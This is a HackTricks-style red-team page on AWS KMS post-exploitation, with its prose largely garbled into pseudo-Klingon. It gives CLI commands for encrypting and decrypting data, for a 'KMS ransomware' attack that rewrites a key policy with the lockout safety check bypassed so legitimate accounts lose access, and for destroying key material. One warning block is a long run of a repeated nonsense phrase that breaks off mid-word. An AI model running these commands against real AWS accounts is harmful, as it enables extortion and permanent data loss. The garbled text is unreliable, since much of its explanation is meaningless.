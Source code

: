 # AWS - KMS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## KMS

For more information check:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

* Using a **symmetric** key
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **asymmetric** key **vIghro'**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

**QIjwIj Ransomware**

Qa'Hom attacker vItlhutlh KMS vItlhutlh, KMS policy vItlhutlh keys 'ej **ghItlhvam vItlhutlh Hoch account access**, 'ej Hoch account vItlhutlh access granted legit account.

vaj, legit account users won't be able to access any informatcion of any service taht has been encrypted with those keys, creating an easy but effective ransomware over the account.

{% hint style="warning" %}
**AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
QaStaHvIS 'ej vaj 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlhutlh 'ej vaj qaStaHvIS 'e' vItlhutlh 'e' vItlh
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Qapla'! AWS vItlhutlh **cross account laH vItlhutlh** qonwI'pu' vItlhutlh.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>tlhInganpu' AWS hacking</strong></a><strong>!</strong></summary>

HackTricks vItlhutlh vItlhutlh:

* Qapla'! **HackTricks** vItlhutlh **company** vItlhutlh **advertising** vItlhutlh **PDF** vItlhutlh [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) vItlhutlh!
* **PEASS & HackTricks swag** vItlhutlh [**official**](https://peass.creator-spring.com) vItlhutlh
* **The PEASS Family** vItlhutlh [**NFTs**](https://opensea.io/collection/the-peass-family) vItlhutlh
* **Join** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) vItlhutlh [**telegram group**](https://t.me/peass) vItlhutlh **follow** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share** hacking tricks vItlhutlh **submitting PRs** vItlhutlh [**HackTricks**](https://github.com/carlospolop/hacktricks) vItlhutlh [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
